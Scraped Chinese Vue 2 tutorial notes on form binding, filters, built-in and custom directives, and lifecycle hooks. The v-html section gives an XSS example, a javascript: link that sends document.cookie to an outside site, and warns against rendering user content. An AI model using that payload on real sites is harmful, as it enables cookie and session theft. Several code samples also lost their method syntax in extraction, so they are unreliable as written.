<button @click ="removeSmoke" > 过滤掉爱好中的抽烟</button > <br > <h3 > 姓名：{{student.name}}</h3 > <h3 > 年龄：{{student.age}}</h3 > <h3 v-if ="student.sex" > 性别：{{student.sex}}</h3 > <h3 > 爱好：</h3 > <ul > <li v-for ="(h, index) in student.hobby" :key ="index" > </li > </ul > <h3 > 朋友们：</h3 > <ul > <li v-for ="(f, index) in student.friends" :keys ="index" > </li > </ul > </div > <script > Vue .config .productionTip = false const v = new Vue ({ el : '#root' , data : { student : { name : 'tom' , age : 18 , hobby : ['抽烟' , '喝酒' , '烫头' ], friends : [ {name : 'jerry' , age : 35 }, {name : 'tony' , age : 36 } ] } }, methods : { addSex ( this .$set(this .student , 'sex' , '男' ) }, addFriend ( this .student .friends .unshift ({name : 'mike' , age : 18 }) }, updateFirstFriendName ( this .student .friends [0 ].name = '张三' }, addHobby ( this .student .hobby .push ('打台球' ) }, updateHobby ( this .$set(this .student .hobby , 0 , '开车' ) }, removeSmoke ( this .student .hobby = this .student .hobby .filter ((h )=> { return h !== '抽烟' }) } } }) </script >
十三、收集表单数据
038 收集表单数据
收集表单数据:
若：<tnput type="text"/>，则 v-model 收集的是 value 值，用户输入的就是 value 值。
若：<input type="radio"/>，则 v-model 收集的是 value 值，且要给标签配置 value 值。
若：<input type="checkbox"/>
没有配置 input 的 value 属性，那么收集的就是 checked（勾选 or 未勾选，是布尔值）
配置 input 的 value 属性：
v-model 的初始值是非数组，那么收集的就是 checked（勾选 or 未勾选，是布尔值）v-model 的初始值是数组，那么收集的的就是 value 组成的数组
备注：v-model 的三个修饰符：
lazy：失去焦点再收集数据number：输入字符串转为有效的数字trim：输入首尾空格过滤
代码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 <div id ="root" > <form @submit ="demo" > <label for ="account" > 账号：</label > <input type ="text" id ="account" v-model.trim ="account" > <br > <br > <label for ="password" > 密码：</label > <input type ="password" id ="password" v-model ="password" > <br > <br > <label for ="number" > 年龄：</label > <input type ="number" id ="age" v-model.number ="age" > <br > <br > <input type ="radio" name ="sex" v-model ="sex" value ="male" > <input type ="radio" name ="sex" v-model ="sex" value ="female" > <br > <br > <input type ="checkbox" v-model ="hobby" value ="study" > <input type ="checkbox" v-model ="hobby" value ="play" > <input type ="checkbox" v-model ="hobby" value ="eat" > <br > <br > <select v-model ="city" > <option value ="" > 请选择校区</option > <option value ="beijing" > 北京</option > <option value ="shanghai" > 上海</option > <option value ="shenzhen" > 深圳</option > <option value ="wuhan" > 武汉</option > </select > <br > <br > <textarea v-model.lazy ="others" > </textarea > <br > <br > <input type ="checkbox" v-model ="agree" > 阅读并接受<a href ="www.baidu.com" > 《用户协议》</a > <br > <br > <button type ="submit" > 提交</button > </form > </div > <script > Vue .config .productionTip = false const v = new Vue ({ el : '#root' , data : { account : '' , password : '' , age : '' , sex : 'male' , hobby : [], city : 'wuhan' , others : '' , agree : '' }, methods : { demo ( alert ("提交数据" + JSON .stringify (this ._data )) } } }) </script >
使用 <form> 语句建立一个表单，@submit="demo" 表示提交这个表单时将执行 demo() 函数。
名称
实现
备注
账号
<label for="account">账号：</label><input type="text" id="account" v-model.trim="account"><label> 下的 for 将绑定下面的 <input>，使得点击提示文本也会让输入框高亮；.trim 表示移除首尾的空格。
密码
<label for="password">密码：</label><input type="password" id="password" v-model="password">type="password" 表示以密码的形式接受输入。
年龄
<label for="number">年龄：</label><input type="number" id="age" v-model.number="age">type="number" 表示接受数字作为输入；v-model.number="age" 表示接受的输入将转义成数字（而不是字符串）。
性别
男<input type="radio" name="sex" v-model="sex" value="male">女<input type="radio" name="sex" v-model="sex" value="female">name="sex" 可以实现单选的选择框；value="male" 和 value="female" 可以控制选择选择框时提交的值。
爱好
学习<input type="checkbox" v-model="hobby" value="study"> 打游戏<input type="checkbox" v-model="hobby" value="play">吃饭<input type="checkbox" v-model="hobby" value="eat">v._data.hobby 初始化时应设成数组，这样才可以多选。
所属校区
<select v-model="city"><option value="">请选择校区</option><option value="beijing">北京</option><option value="shanghai">上海</option><option value="shenzhen">深圳</option><option value="wuhan">武汉</option></select>选中某个值时会替换。
其他校区
<textarea v-model.lazy="others"></textarea><br/><br/>v-model.lazy 当注意点切换时，Vue 才会更新里面的值，从而提升性能。
阅读并接受
<input type="checkbox" v-model="agree">阅读并接受<a href="www.baidu.com">《用户协议》</a>默认的 type="checkbox"，选中返回 true，没选中返回 false。
提交
<button type="submit">提交</button>type="submit" 可加可不加，因为 <form> 默认第一个 <button> 按下后将会提交表单。

十四、过滤器
039 过滤器
过滤器：
定义：对要显示的数据进行特定格式化后再显示（适用于一些简单 逻辑的处理，复杂的还是 computed 或 methods）
语法：
注册过滤器：Vue.filter(name,callback)（局部） 或 new Vue{filters:{}}（全局）
使用过滤器：{{xxx |过滤器名}} 或 v-bind:属性 ="xxx | 过滤器名”
备注：
过滤器也可以接收额外参数、多个过滤器也可以串联
并没有改变原本的数据，是产生新的对应的数据
从 BootCDN - Bootstrap 中文网开源项目免费 CDN 加速服务 铂特优选 处可以找到常用的 js 库。这里整一个 day.min.js。
操作一下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 <div id ="root" > <h2 > 显示格式化后的时间</h2 > <h3 > 现在是：{{fmtTime}}</h3 > <h3 > 现在是：{{getFmtTime()}}</h3 > <h3 > 现在是：{{time | timeFormater}}</h3 > <h3 > 现在是：{{time | timeFormater('YYYY-MM-DD') | mySlice}}</h3 > </div > <script > Vue .config .productionTip = false const v = new Vue ({ el : '#root' , data : { time : 1731817795096 }, computed : { fmtTime ( return dayjs (this .time ).format ('YYYY-MM-DD HH:mm:ss' ) } }, methods : { getFmtTime ( return dayjs (this .time ).format ('YYYY-MM-DD HH:mm:ss' ) } }, filters : { timeFormater (value, format='YYYY-MM-DD HH:mm:ss' ) { return dayjs (value).format (format) }, mySlice (value ) { return value.slice (0 , 4 ) } } }) </script >
十五、内置指令
040 v-text 指令
下面的代码与将在 <div> 之间生成文本，但是不会 渲染结构。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 <div id ="root" > <div v-text ="name" > </div > <div > {{name}}</div > </div > <script > Vue .config .productionTip = false const v = new Vue ({ el : '#root' , data : { name : '<h2>古尔丹<h2>' } }) </script >
041 v-html 指令
v-html 指令：
作用：向指定节点中消染包含 html 结构的内容。
与插值语法的区别：
v-html 会替换掉节点中所有的内容，{{xx}} 和 v-text 则不会。v-html 可以识别 html 结构。
严重注意：v-html 有安全性问题！
在网站上动态渲染任意 HTML 是非常危险的，容易导致 XSS 攻击 。
一定要在可信的内容上使用 v-html，永不要用在用户提交的内容上 ！
下面的代码与将在 <div> 之间生成文本，但是会 渲染结构。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 <div id ="root" > <div v-html ="name" > </div > <div > {{name}}</div > </div > <script > Vue .config .productionTip = false const v = new Vue ({ el : '#root' , data : { name : '<a href=javascript:location.href="http://www.baidu.com?" + document.cookie>点开有惊喜！<a/>' } }) </script >
这段代码是危险的，这可能把该网站的 cookie 送给另一个网站中，如果网站的 cookie 中的关键信息没有使用 HttpOnly，可能导致信息泄露！


服务器根据 cookie 决定用户是否登录。同样的 cookie 可以登录同样的账户。
042 v-cloak 指令
v-cloak 指令（没有值）：
本质是一个特殊属性，Vue 实例创建完毕并接管容器后，会删掉 v-cloak 属性。
使用 css 配合 v-cloak 可以解决网速慢时页面展示出 {{xxx}} 的问题。
1 2 3 [v-cloak] {display : none;
043 v-once 指令
v-once 指令：
v-once 所在节点在初次动态渲染后，就视为静态内容了。以后数据的改变不会引起 v-once 所在结构的更新，可以用于优化性能。
044 v-pre 指令
v-pre 指令：
跳过其所在节点的编译过程。
可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译。
十六、自定义指令
045 自定义指令-函数式 & 046 自定义指令-对象式
使用 directives 创建一个自定义指令：
directives 下的函数接收两个参数，分别是绑定的真实 DOM 和绑定中传的参数。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 <div id ="root" > <h2 > 当前的 n 值是：<span v-text ="n" > </span > </h2 > <h2 > 放大 10 倍后的 n 值是：<span v-big ="n" > </span > </h2 > <button @click ="n++" > 点我 n + 1</button > <hr > <input type ="text" v-fbind:value ="n" > </div > <script > Vue .config .productionTip = false const v = new Vue ({ el : '#root' , data : { n : 1 }, directives : { big (element, binding ) { element.innerText = binding.value * 10 console .log (element, binding) }, fbind : { bind (element, binding ) { element.value = binding.value }, inserted (element, binding ) { element.focus () }, update (element, binding ) { element.value = binding.value } } } }) </script >
047 自定义指令-总结
自定义指令总结：
定义语法
局部指令：
new Vue({directives: {指令名: 配置对象}})new Vue({directives{指令名: 回调函数}})
全局指令：
Vue.directive(指令名, 配置对象)Vue.directive(指令名, 回调函数)
配置对象中常用的 3 个回调：
bind：指令与元素成功绑定时调用。inserted：指令所在元素被插入页面时调用。update：指令所在模板结构被重新解析时调用。
备注：
指令定义时不加 v-，但使用时要加 v-；
指令名如果是多个单词，要使用 kebab-case 命名方式，不要用 camelCase 命名。
十七、生命周期
049 生命周期-挂载流程
生命周期：
又名：生命周期回调函数、生命周期函数、生命周期钩子。
是什么：Vue 在关键时刻帮我们调用的一些特殊名称的函数。
生命周期函数的名字不可更改，但函数的具体内容是程序员根据需求编写的。
生命周期函数中的 this 指向是 vm 或组件实例对象。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 <div id ="root" > <h2 :style ="{opacity}" > 欢迎学习 Vue</h2 > </div > <script > Vue .config .productionTip = false const v = new Vue ({ el : '#root' , data : { opacity : 0.75 }, mounted ( console .log ('mounted' , this ) setInterval (() => { this .opacity -= 0.01 if (this .opacity <= 0 ) this .opacity = 1 }, 16 ) }, }) </script >
050 生命周期-更新流程 & 051 生命周期-销毁流程
Vue 组件的生命周期大致可以分为三个阶段：创建阶段 、更新阶段 、销毁阶段 。每个阶段都有一系列的生命周期钩子函数，可以让开发者在这些阶段执行特定的逻辑。

052 总结生命周期
张三的一生（张三的生命周期）：
将要出生
（重要）呱呱坠地 → 检查身体各项指标。
学会说话
学会走路
……
……
（重要）将要永别 → 交代后事
已经永别
vm 的一生（vm 的生命周期）：
将要创建 → 调用 beforecreate()
创建完毕 → 调用 created()
将要挂载 → 调用 beforeMount()
（重要）挂载完毕 → 调用 mounted()
将要更新 → 调用 beforeUpdate()
更新完毕 → 调用 updated()
（重要）将要销毁 → 调用 beforeDestroy()
销毁完毕 → 调用 destroyed()
常用的生命周期钩子:
mounted()：发送 ajax 请求、启动定时器、绑定自定义事件、订阅消息等【初始化操作】。beforeDestroy()：清除定时器、解绑自定义事件、取消订阅消息等【收尾工作】。
关于销毁 Vue 实例
销毁后借助 Vue 开发者工具看不到任何信息。
销毁后自定义事件会失效，但原生 DOM 事件依然有效。
一般不会再 beforeDestroy() 操作数据，因为即便操作数据，也不会再触发更新流程了。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 <div id ="root" > <h2 :style ="{opacity}" > 欢迎学习 Vue</h2 > <button @click ="stop" > 点我停止变换</button > </div > <script > Vue .config .productionTip = false const v = new Vue ({ el : '#root' , data : { opacity : 0.75 }, methods : { stop ( this .$destroy() } }, mounted ( console .log ('mounted' , this ) this .timer = setInterval (() => { this .opacity -= 0.01 if (this .opacity <= 0 ) this .opacity = 1 }, 16 ) }, beforeDestroy ( clearInterval (this .timer ) }, }) </script >